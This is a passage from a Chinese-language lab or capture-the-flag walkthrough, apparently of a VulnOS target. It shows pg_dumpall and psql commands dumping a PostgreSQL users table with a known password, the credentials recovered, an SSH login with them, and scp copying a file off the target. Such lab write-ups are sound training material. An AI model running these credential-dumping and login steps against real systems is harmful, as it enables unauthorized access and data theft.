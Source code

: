 ```plain
PGPASSWORD="postgres" pg_dumpall -U postgres -h 127.0.0.1 -p 5557
```

或者使用webmin:webmin1980登录靶机手工查询,[相关命令参考](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql)

```plain
psql -h localhost -U postgres
\list # List databases
\c <database> # use the database
\d # List tables
SELECT * FROM  users;
```

[![](assets/1704158282-2d1e0adc6dee0fa99694c3d714c95a39.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229010506-40248a32-a5a3-1.png)

> 拿到了一个用户凭据 vulnosadmin:c4nuh4ckm3tw1c3

# 立足点2：shell as user2（ssh）

使用 vulnosadmin:c4nuh4ckm3tw1c3 成功ssh登录，没sudo权限，但在家目录发现文件 r00t.blend

```plain
ssh vulnosadmin@192.168.50.10

//kali
scp vulnosadmin@192.168.50.10:~/r00t.blend .
file r00t.blend
binwalk r00t.blend
cat r00t.blend
strings r00t.blend
```
